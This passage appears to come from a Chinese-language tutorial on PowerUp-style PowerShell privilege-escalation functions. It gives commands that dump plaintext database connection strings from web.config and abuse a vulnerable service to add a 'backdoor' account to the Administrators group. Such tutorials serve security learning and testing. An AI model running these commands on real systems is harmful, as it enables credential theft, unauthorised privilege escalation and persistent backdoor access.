 **Get-VulnSchTask**

返回当前用户能够修改的计划任务程序的名称和路径。

执行方式：

```
PS C:\> Get-VulnSchTask

```

**Get-Webconfig**

返回当前服务器上的web.config文件中的数据库连接字符串的明文。

执行方式：

```
PS C:\>get-webconfig  
PS C:\>get-webconfig | Format-Table -Autosize #列表显示

```

**Invoke-AllChecks**

执行所有的脚本来检查。

执行方式：

```
PS C:\> Invoke-AllChecks

```

![Alt text](http://drops.javaweb.org/uploads/images/db384ca17ccbe2b1fc7041f3fe5d4adb4599847e.jpg)

**Invoke-Service**

*   Invoke-ServiceDisable 禁用服务
*   Invoke-ServiceEnable 启用服务
*   Invoke-ServiceStart 启动服务
*   Invoke-ServiceStop 停止服务

执行方式为：

```
PS C:\> Invoke-ServiceDisable -ServiceName 服务名称。

```

*   Invoke-ServiceAbuse

用来通过修改服务添加用户到指定组，并可以通过定制-cmd参数触发添加用户的自定义命令。

执行方式:

```
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC # 添加默认账号
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC -UserName "TESTLAB\john" # 指定添加域账号
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC -UserName backdoor -Password password -LocalGroup "Administrators" # 指定添加用户，用户密码以及添加的用户组。
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC -Command "net ..." # 自定义执行命令

```
